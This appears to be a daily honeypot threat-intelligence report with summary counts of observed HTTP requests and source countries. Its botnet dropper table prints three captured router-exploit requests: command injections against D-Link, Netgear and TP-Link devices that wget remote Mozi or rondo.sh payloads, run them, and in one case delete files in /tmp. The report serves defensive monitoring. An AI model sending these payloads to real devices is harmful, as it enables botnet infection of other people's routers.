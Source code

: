 ```yaml
---
title: "Report: 2025-06-21 "
date: 2025-06-21
desciption: "Report: 2025-06-21" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-21 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 48 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 863 requests were recorded during the day, originating from 3 different countries, with a peak of 220 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| SG               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                                                                                                        |
|:--------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 77.239.211.92 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                          |
| 175.107.1.120 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://175.107.1.120:49904/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                   |
| 45.135.194.34 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=%24%28killall%20-9%20mipsel%20mpsl%3B%28wget%20-O-%20http%3A%2F%2F14.103.145.202%2Frondo.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F14.103.145.202%2Frondo.sh%29%20%7C%20sh%20-s%20tplink%3B%29 HTTP/1.1 |
